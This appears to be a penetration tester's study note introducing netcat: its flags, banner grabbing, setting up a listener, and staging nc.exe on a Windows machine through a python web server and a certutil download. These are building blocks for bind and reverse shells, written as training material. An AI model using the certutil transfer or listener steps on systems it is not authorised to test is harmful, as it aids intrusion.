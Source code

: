 
## Shells ##

### Netcat Fundamentals ###

#### Netcat ####
+ Aka <mark style="background: #FFF3A3A6;">TCP/IP Swiss Army Knife</mark>, a networking utility used to read and write data to network connections using TCP or UDP
+ Netcat is available for both NIX and Windows OS's, consequently making it extremely useful for cross-platform engagements
+ Netcat utilizes a client-server communication architecture with two modes:
	+ Client mode - Netcat can be used in client mode to connect to any TCP/UDP port as well as a Netcat listener (server)
	+ Server mode - Netcat can be used to listen for connections from clients on a specific port
+ Netcat can be used by penetration testers to perform the following functionality:
	+ Banner Grabbing
	+ Port Scanning 
	+ Transferring Files
	+ Bind/Reverse Shells 

#### Netcat Common Flags ####
+ `nc --help`
	+ Shows all the documentation, or can use the man pages 
+ `-v`
	+ Give additional information on actions 
+ `-u`
	+ Specifies UDP, be default it will do TCP
+ `-l` 
	+ Used to specify listener 
+ `-n`
	+ Will not resolve hostnames via DNS
+ `-e`
	+ Will execute a specific command 

#### Connect to ports ####
+ Output of the connection can be a service banner (banner grabbing)
+ `nc -nv <IP> <PORT>`
	+ On MAC: `nc targethost <PORT>`
	+ So DNS resolve is disabled and will give more information (like if it connected)
	+ Could not connect do to filtering or a firewall as well 
+ Can transfer netcat to a windows machine
	+ The binary is under `/usr/share/windows-binaries/nc.exe`
	+ Can host a web server holding the executable using `python -m SimpleHTTPServer 80` 
		+ Will host everything in the current directory
	+ Will now navigate to that IP in a browser, or using the command prompt `certutil -urlcache -f http://<IP>/nc.exe nc.exe` 

#### Setup a listener ####
+ `nc -nvlp <PORT>`
	+ DNS resolve is disabled, Verbose is on, is a listener, with port specified after the -p
	+ On MAC: `nc -l <PORT>`
+ When they are connected, can send messages by typing characters 

